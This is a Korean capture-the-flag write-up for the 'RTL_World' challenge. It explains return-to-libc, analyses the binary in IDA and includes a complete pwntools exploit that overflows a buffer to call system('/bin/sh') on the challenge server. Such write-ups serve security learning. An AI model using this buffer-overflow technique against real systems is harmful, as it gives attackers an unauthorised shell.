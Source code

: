 RTL_World
-------------	
 ![txt](txt.png)
* RTL 이란?    
Return-to-libc란 뜻으로, libc안 함수를 이용해 쉘을 실행시키는게 목표이다!    
조금 생각해보면, 우리가 쉘을 가잘 빨리 얻을 수 있는 방법이 뭘까?    
```c	system("/bin/sh")``` 
이 코드일 것이다.   
RTL은 코드의 Return까지 BOF를 일으키고, Return Address에 system()의 주소를 넣고, 4byte의 더미값 + 쉘코드를 넣으면 된다.   
여기서 왜 4byte의 더미값을 넣는 것일 까?   
system()함수 뒤의 값은 system()가 끝나고 실행되는 코드이기 때문이다.    
이제 RTL이 무엇인지 이해가 됐을 꺼라 믿고, 문제를 풀이해보겠다!    

-----------------------------------------    
## 문제풀이    

일단 문제에 접속해보면,    
![com_1](Com_1.PNG)    
보스를 잡아달라고 한다.   
2,3,4는 IDA코드를 보면서 알아보도록 하고,   
1을 입력해보면,    
![com_2](Com_2.PNG)    
걸려있는 보호기법이랑, 보스의 주소(?)랑 HP가 나오는데, 뭔 뜻인지는 나중에 IDA를 까보면서 알아보자.   
5를 입력하면 공격하라고 뜬다.    
![com_3](Com_3.PNG)    

자 그럼 IDA로 뜯어보도록 하자!    

 -----------------------------------------    
### 코드분석    
![IDA](IDA.PNG)    
2는 3,4를 정상적으로 실행하기 위한 골드 수급용 함수인 것 같다.    
(진짜 게임같네)    
3은 **system Armor** 라면서 v6의 주소를 준다. v6?   
4는 **Shell Sword** 라면서 s1의 주소를 준다. s1?    
위 두 변수의 정체가 뭘까?    
![IDA_2](IDA_2.PNG)   
위 코드를 보면,   
handle은 떡하니 libc라고 적혀있는 걸로 봐서 libc의 주소를 기억하는 것 같고,   
v6에는 그 handle, 즉 libc에서 system함수를 찾아 그 주소를 저장한다.    
그다음 s1에는 v6, 즉 system함수에서 "/bin/sh"이라는 문자열의 주소를 저장한다.   
자 그러면 3을 입력하면 system함수의 주소가,  4를 입력하면 "/bin/sh", 쉘코드의 주소를 전달해주는 걸 알 수 있다!   
좋아 거의 다 끝났다!    
이제 얼만큼 BOF를 일으켜야 할지 구하기만 하면 된다!    
![IDA_3](IDA_3.PNG)    
보면 buf는 ebp-8CH에 위치해 있다고 한다.   
8C = 140 
즉 Payload를 짜보면 
Dummy(140) + SFP(4) + system()주소 + Dummy(4) + "/bin/sh"의 주소를 넣으면 된다!    

 -----------------------------------------    
### 익스코드    
```python 
from pwn import *

p = remote("ctf.j0n9hyun.xyz", 3010)

for i in range(8):
	p.recvuntil(">>> ")
	p.sendline("2")
	p.recvuntil("(Job)>>> ")
	p.sendline("3")

p.recvuntil(">>> ")
p.sendline("3")
p.recvuntil("System Armor : ")
systemAdd =p32(int(p.recv(10),16))
p.recvuntil(">>> ")
p.sendline("4")
p.recvuntil("Shell Sword : ")
shellAdd = p32(int(p.recv(10),16))

payload = 'R'*144
payload += systemAdd
payload += 'T'*4
payload += shellAdd

p.recvuntil(">>> ")
p.sendline("5")
p.recvuntil("[Attack] > ")
p.sendline(payload)
p.interactive()
```    
 -----------------------------------------  
 
![run](run.PNG)    
손쉽게 flag를 얻었다!   